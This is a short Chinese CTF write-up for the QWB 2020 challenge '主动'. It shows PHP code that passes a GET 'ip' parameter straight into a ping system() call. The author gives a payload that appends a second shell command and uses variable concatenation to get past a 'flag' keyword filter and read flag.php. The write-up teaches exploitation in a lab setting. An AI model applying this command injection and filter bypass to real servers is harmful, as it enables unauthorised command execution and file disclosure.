 
---


## 强网先锋——主动

打开链接得到源码：

```php
<?php
highlight_file("index.php");

if(preg_match("/flag/i", $_GET["ip"]))
{
    die("no flag");
}

system("ping -c 3 $_GET[ip]");

?> 
```



很基础的命令执行，先查看当前目录下的文件：

![image-20200823173950037](/images/强网杯2020部分WriteUp/380cda933f118e1dd80a444394e0cf88a57649039da7a1ea02dac4ded854de20.png " ")



可看到`flag.php`在当前目录下，但是因为上面的正则表达式无法直接读取文件，这里利用 Linux 的变量机制来绕过正则：

![image-20200823175004665](/images/强网杯2020部分WriteUp/31f01dcd8d0385902f362f288e72de2c5f9f4a6b9acee453e3e6c72291f73686.png " ")



Payload：`?ip=8.8.8.8;a="fla";b="g.php";cat%20"./"$a$b`

---

{{< admonition abstract "链接" >}}
相关题目：[强网杯2020WriteUp相关题目.zip](/others/强网杯2020部分WriteUp/强网杯2020WriteUp相关题目.zip)
{{< /admonition >}}







